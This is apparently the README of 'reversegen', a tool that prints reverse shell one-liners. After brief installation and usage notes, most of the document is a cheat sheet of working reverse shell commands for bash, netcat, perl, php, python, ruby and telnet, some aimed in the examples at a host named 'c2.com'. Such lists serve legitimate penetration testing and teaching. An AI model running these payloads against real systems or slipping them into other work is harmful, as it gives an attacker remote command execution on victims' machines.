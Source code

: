 # Reverse Shell Generator

Sometimes searching the internet for a reverse shell and changing its values is a pain, that's what this tool is for.

When executed it prints out the reverse shell (so you can pipe it to `xclip` and rapidly paste it) and writes it to a file in case you need it later.

## Installation

```
chmod +x reversegen
sudo ln -s $(pwd)/reversegen.py /usr/local/bin/reversegen
```

## Usage:

```
reversegen <Method> <IP> <Port> [-f fileName]
```

Example of usage: 

```
reversegen python 192.168.1.10 4444
reversegen python 10.10.1.14 4444 -f revpy_10.10.1.14_4444.txt
reversegen python 10.10.1.14 4444 -f ~/rev
reversegen python c2.com 4444
```

Example of copying the result:

```
reversegen bash 10.10.1.14 1234 | xclip -selection clipboard
reversegen python 10.10.1.14 4444 -f revpy_10.10.1.14_4444.txt | xclip -selection clipboard
reversegen python 10.10.1.14 4444 -f ~/rev | xclip -selection clipboard
reversegen bash c2.com 1234 | xclip -selection clipboard
```

## Available Methods

- bash: `bash -i >& /dev/tcp/IP/PORT 0>&1`

- bash2: `0<&196;exec 196<>/dev/tcp/IP/PORT; sh <&196 >&196 2>&196`

- netcat: `nc -e /bin/sh IP PORT`

- netcat2: `/bin/sh | nc IP PORT`

- netcat3: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f]`

- netcat4: `rm -f /tmp/p; mknod /tmp/p p && nc IP PORT 0/tmp/p`

- perl: `perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

- perl2 (Doesn't use */bin/sh*): `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"IP:PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

- perl3 (For Windows): `perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"IP:PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

- php: `php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`

- python: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- ruby: `ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

- ruby2 (Doesn't use */bin/sh*): `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

- ruby3 (For Windows): `ruby -rsocket -e 'c=TCPSocket.new("IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

- telnet: `rm -f /tmp/p; mknod /tmp/p p && telnet IP PORT 0/tmp/p`

## Credits for the Reverse Shells to:

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Bernardo Damele](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
